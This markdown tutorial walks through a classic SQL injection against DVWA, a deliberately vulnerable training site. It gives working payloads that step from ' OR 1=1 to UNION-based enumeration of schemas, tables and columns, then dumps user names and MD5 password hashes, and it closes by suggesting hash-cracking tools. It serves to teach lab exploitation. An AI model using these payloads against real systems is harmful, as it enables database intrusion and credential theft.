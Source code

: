 ```yaml
---
title: SQL Injection
description: Learn how to exploit sql injection vulnerability.
author: Kalidou DIA
---
```


# <center>CLASSIC SQL INJECTION - EXPLOIT</center>

![alt text](/img/sql_classic/sql_injection.jpeg#center)

### <center>In this tutorial, we'll look at how to exploit a SQL injection vulnerability.</center>
<div style="text-align: right" class="date-update">
Last update :  Feb, 25 2024
</div>


________________________________________________________________
## 1. Presentation



The website in question contains a lot of vulnerabilities. In a way, it is a laboratory for exploiting and testing vulnerabilities.
The vulnerability we are going to describe in the following lines is "SQL injection". More information :[ click here to view](https://www.kaspersky.fr/resource-center/definitions/sql-injection)
<p>The technologies used on this website are :</p>

![alt text](/img/sql_classic/techno_site.png#center)

Description of interaction with website visitors
<li>1. We ask the visitor to enter a user id</li>
<li>2. The server then returns the "First name" and "Surname" of the corresponding id.</li>
<br>

![alt text](/img/sql_classic/gordon_screen.png#center)

________________________________________________________________
## 2. How the website works ?

### 2.1 Let's see how the site behaves when you enter values it doesn't expect
<div class="flex flex-col md:flex-row gap-10 justify-between">
    <div class="mx-4">
        <p>Enter a character string with quotes instead of an integer</p>
        <img src="/img/sql_classic/coucou.png"/>
    </div>
    <div class="mx-4">
        <p>The server processes the request correctly and returns a code 200 to say that everything is fine. Which is abnormal.</p>
        <img src="/img/sql_classic/coucou_response.png"/>
    </div>
</div>
<br><br>

### 2.2 Let's see if the sql injection works.
To do this, we're going to guess (thanks to the technology used on this site) the SQL query that is used to retrieve the information displayed.
After several tests, we deduce that the query in question could look like this:

```sql
SELECT colonne1, colonne2
FROM nom_de_la_table 
WHERE id = '$id';
```
The *id* field is our input that has been sent to the server. This is the field we're going to use to change the SQL query.

To do this, we're going to put in a character string that will return all the lines.
The string in question is as follows:  `` ' OR 1=1 -- - ``
<p> As a result, the query will be : </p>

```sql
SELECT colonne1, colonne2
FROM nom_de_la_table
WHERE id = '' OR 1=1 -- - ' ;
```

This query will return the rows of the table concerned because the condition `` WHERE id='' OR 1=1 `` is always true. The characters "<span style="color:#FF5733">-- -</span>" are used to comment out the rest of the request, which will not be executed.

![alt text](/img/sql_classic/exploit1.png#center)

The SQL injection passes and the table information is displayed.
<br>

________________________________________________________________
## 3. Extract more information

We are sure that the site is vulnerable to SQL injection.
Let's try to get some more information.

### 3.1 Database version

By running a few tests, we know that there are two columns being requested in the query.
As a result, our input will take this value : ``' UNION SELECT NULL,version()-- -``



The query will look like this: 
```sql
SELECT colonne1, colonne2
FROM nom_de_la_table
WHERE  id = '' UNION SELECT NULL,version()-- - '
```

``version()`` or ``@@version`` is a system variable found in most SQL databases.


![alt text](/img/sql_classic/version.png#center)
The image above shows that this is a mariaDB.
<br>

### 3.2 Database schemas

Our input here will take the following value: ``' UNION SELECT concat(schema_name),1 from information_schema.schemata -- - ``


``schema_name `` is also a system variable. So the schematics will be displayed in the first column and the value 1 in the second
We can see from the screenshot below that we have 2 comics: **dvwa'** and **information_schema**.

The database of interest to us is dvwa

![alt text](/img/sql_classic/schema.png#center)
<br>

### 3.3 Extract tables from the dvwa DB

input  :  <span style = "color : #FF5733 ">
``' UNION SELECT concat(TABLE_NAME),1 from information_schema.TABLES WHERE table_schema='dvwa' -- -``
</span>

**TABLE_NAME** is also a system variable
We can see that the dvwa DB contains two tables: users and guestbook

![alt text](/img/sql_classic/tables.png#center)
<br>

### 3.4 Extract columns from users table

input  :  <span style = "color : #FF5733 ">
``' UNION SELECT concat(COLUMN_NAME),1 from information_schema.COLUMNS WHERE TABLE_NAME='users' -- -``
</span>

**COLUMN_NAME** is also a system variable
The users table columns are :
    <li>user_id</li>
    <li>first_name</li>
    <li>last_name</li>
    <li>user</li>
    <li>password</li>
    <li>avatar</li>
    <li>last_login</li>
    <li>failed_login</li>

![alt text](/img/sql_classic/columns.png#center)
<br>

### 3.5 Extract all names and passwords

input  :  <span style = "color : #FF5733 ">
``'  UNION SELECT concat(0x28,first_name,0x3a,last_name,0x3a,password,0x29),1 from users -- -``
</span>

We use the ``concat()`` function to format and display as much information as we want.
<p>The characters <span style="color: #E85320"> 0x28 0x3a 0x29 </span> are respectively the ASCII representations of <span style="color: #E85320;"> <i>(</i> </span>, <span style="color: #E85320;"> <i>:</i> </span>  and <span style="color: #E85320;"> <i>)</i> </span> converted to hexadecimal. They are used for formatting</p>

The image below shows the various items of information recovered.
![alt text](/img/sql_classic/lines.png#center)
<br>

________________________________________________________________
## 4. Cracking passwords

Note that the passwords are hashed. The hash used looks like MD5 (32 characters).
<p>To crack passwords, let's use <a href="https://www.openwall.com/john/">John the Ripper</a> or an online password cracker : <a href="https://md5decrypt.net/">MD5 decrypt</a></p>

![alt text](/img/sql_classic/decrypt_password.png)

The unencrypted passwords are shown in the image above.

